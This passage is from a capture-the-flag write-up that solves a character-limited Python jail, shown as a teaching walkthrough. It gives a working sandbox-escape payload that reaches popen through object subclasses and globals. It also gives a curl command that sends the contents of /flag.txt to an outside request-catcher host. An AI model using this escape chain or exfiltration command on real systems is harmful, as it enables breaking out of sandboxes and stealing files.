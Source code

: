 We've reduced indexing `popen` to just 82 characters.

### The "sh" situation

We've got 20 characters left to make the "sh" string. We've got no more gimmicks like what he had with"popen", so we've got to think of a new method. I figured we'd only be able to make one reference to `__doc__`, because `().__doc__[]` costs 12 characters. This seems impossible without string slicing a string which already has "sh" within it, but it's actually not. String slicing has one more trick up it's sleeve that will allow us to construct "sh" in just a few characters. Standard string slicing allows us to select a range of characters from a string and extract them. For example:

```python
"why is pyjail so hard?"[7:13]
# -> 'pyjail'
```

But, there's one more thing string slicing can do. There's a 3rd parameter for string slicing, known as "stride", which specifies how many characters to move forward after the a character is read from the string. By default, the stride is one, but we can customize it to however much we want. So, what if we first set the starting index to the first index of 's', then set the stride large enough so that the next character is the last index of 'h'? This would mean after 's' is read, the stride would jump a huge amount of characters, all the way until the last 'h', at which no more strides can be taken because the string is not long enough. So, our slice would be equivlient to:

```python
doc = ().__doc__
doc[doc.index('s')::doc.rindex('h') - doc.index('s')]
# -> 'sh'
```

Simplifying this:

```python
().__doc__[19::199]
# -> 'sh'
```

## No problem?

Let's put it all together, for real this time. Don't forget to italicize your payload!

```python
[*().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()][-5](().__doc__[19::199])
```

### Small problem?

Yea.. slight problem. Unfortunately, due to `popen`'s functionality, we can't see the output of the programs we run. But that's alright! We can use `curl` to send the flag as the body of a POST request to a [request catcher](https://requestcatcher.com).

This is what I used:

```bash
curl -X POST -d `cat /flag.txt` https://pepsipu.requestcatcher.com
```

And on the request catcher, the recieved request is:

![request catcher with flag](https://i.gyazo.com/0d4f13ab469df40451b9c290c2f2dc21.png)

There's our flag!

`flag{SH*T_I_h0pe_ur_n0t_b1c..._if_y0u_@r3,_th1$_isn't_th3_fl@g}`